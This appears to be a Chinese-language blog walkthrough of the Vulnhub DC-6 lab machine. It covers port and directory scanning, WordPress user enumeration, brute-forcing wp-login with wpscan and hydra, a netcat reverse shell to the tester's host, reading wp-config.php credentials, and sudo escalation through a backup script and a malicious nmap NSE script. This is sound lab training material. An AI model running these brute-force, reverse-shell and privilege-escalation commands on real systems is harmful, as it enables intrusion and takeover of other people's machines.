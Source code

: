 ```yaml
---
title: Vulnhub-DC6  
date: 2024-03-20  
categories: [Training platform,Vulnhub]  
tags: [Vulnhub]  
permalink: "/Vulnhub/DC6.html"
---
```


# DC-6

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718414.png" alt="image-20240320150251272" style="zoom: 50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718415.png" alt="image-20240320150444597" style="zoom:50%;" />

看来这个靶机相对好搞一点点哦：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718416.png" alt="image-20240320154036553" style="zoom:50%;" />

扫到了一个，但是不知道是不是：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718417.png" alt="image-20240320154119848" style="zoom:50%;" />

看样子没错了。

## 信息搜集

### 端口扫描

```bash
sudo nmap  -sV -sT -T4 -p- 10.160.31.197
```

毕竟是老靶场了，就不扫描漏洞了。

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
MAC Address: 00:0C:29:F1:F4:55 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 目录爆破

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.160.31.197 -f -t 200
```

```text
/icons/               (Status: 403) [Size: 294]
/wp-content/          (Status: 200) [Size: 0]
/wp-includes/         (Status: 200) [Size: 42578]
/wp-admin/            (Status: 302) [Size: 0] [--> http://wordy/wp-login.php?redirect_to=http%3A%2F%2F10.160.31.197%2Fwp-admin%2F&reauth=1]
/server-status/       (Status: 403) [Size: 302]
```

和作者说的一样确实是`wordpress`站点，以防万一，再扫一下：

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.160.31.197 -f -t 50 -x php,html,txt,jpg,png -r
```

![image-20240320155038937](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718418.png)

忘了，作者说要添加的来着。。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718419.png" alt="image-20240320155453372" style="zoom:50%;" />

忘了递归爆破了，算了，换一个吧：

```bash
feroxbuster -u http://10.160.31.197
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718420.png" alt="image-20240320155614973" style="zoom: 67%;" />

### Wappalyzer插件

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718421.png" alt="image-20240320155817104" style="zoom: 33%;" />

版本比较老了。

## 漏洞利用

访问一下

![image-20240320155755448](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718422.png)

到处浏览一下，发现登录入口：

![image-20240320160134453](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718423.png)

```bash
http://wordy/wp-login.php?redirect_to=http%3A%2F%2Fwordy%2Fwp-admin%2F&reauth=1
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718424.png" alt="image-20240320160157445" style="zoom:50%;" />

### WPScan扫描

弱口令以及万能密码，都不行，很正常，wpscan扫一下用户：

```bash
wpscan --url http://wordy/ --enumerate u
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718425.png" alt="image-20240320160500793" style="zoom:50%;" />

扫出来五个用户。按照作者的提示是要拿rockyou公司的那个字典爆破一下了，为了节省时间，按作者方法将密码进行提取一下，方便我们快速完成爆破这一行为：

```bash
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
echo "admin\njens\ngraham\nmark\nsarah\n" > usernames.txt
wpscan --url http://wordy -U usernames.txt -P passwords.txt 
```

也可以尝试使用`hydra`进行爆破：

```bash
hydra -L usernames.txt -P passwords.txt -t 10 -f www.wordy.com http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:login_error"
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718426.png" alt="image-20240320161756618" style="zoom:50%;" />

同时进行吧：

![image-20240320162747709](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718427.png)

扫出来了，尝试进行登录！

```apl
mark
helpdesk01
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718428.png" alt="image-20240320162908102" style="zoom:50%;" />

### WP插件远程执行漏洞

进来了！但是好像没有方便我们上传的工具欸，查看一下插件是否有远程执行的漏洞吧，wordpress插件的漏洞还是屡见不鲜的。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718429.png" alt="image-20240320164434095" style="zoom:50%;" />

还真有一个，尝试一下能不能用：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718430.png" alt="image-20240320164807105" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718431.png" alt="image-20240320164819817" style="zoom:50%;" />

连上了欸！

```bash
nc -e /bin/sh 10.161.181.188 1234
pwncat-cs -lp 1234
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718433.png" alt="image-20240320165515506" style="zoom:50%;" />

打错了，哈哈哈，尴尬 | -_- |~~

### 查看基础信息

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718434.png" alt="image-20240320165807067" style="zoom:50%;" />

没发现啥，去常看的目录瞅瞅：

```php
// wp-config.php

/** MySQL database username */
define( 'DB_USER', 'wpdbuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'meErKatZ' );
```

尝试一下，这个密码可不可以登录root。

```apl
wpdbuser
meErKatZ
```

失败了。继续吧：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718435.png" alt="image-20240320170524913" style="zoom: 50%;" />

然后接着就发现了nice的事情：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718436.png" alt="image-20240320170633343" style="zoom:67%;" />

获取到了账号密码，切换一下用户。

### 切换graham用户

```apl
graham 
GSo7isUM1D4
```

查看基础信息：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718437.png" alt="image-20240320170917802" style="zoom:50%;" />

利用一下：

```
echo "/bin/bash" >> backups.sh
sudo -u jens ./backups.sh
```

### 切换到jans

搜集一下信息：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718438.png" alt="image-20240320171209012" style="zoom:50%;" />

### 使用nmap进行提权

利用`nmap`执行脚本的方式，进行提权

```bash
echo 'os.execute("/bin/sh")' > exp.nse
sudo nmap --script=exp.nse
```

![image-20240320171728368](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403201718439.png)

不知道为啥输入的没有显示，但是毫无疑问，我们拿到root辣！

